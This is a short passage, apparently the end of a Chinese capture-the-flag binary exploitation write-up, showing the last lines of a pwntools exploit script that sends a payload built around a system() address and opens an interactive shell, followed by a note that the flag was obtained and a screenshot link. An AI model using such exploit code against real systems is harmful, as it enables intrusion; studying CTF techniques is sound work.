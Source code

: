 ```
        system_addr
    ]
})
io.sendline(payload) 发送paylaod
io.interactive()  //获得交互
```
运行脚本，成功得到flag


![在这里插入图片描述](https://img-blog.csdnimg.cn/7c7c9f77d00a4d7e872edef35052c6b6.png)



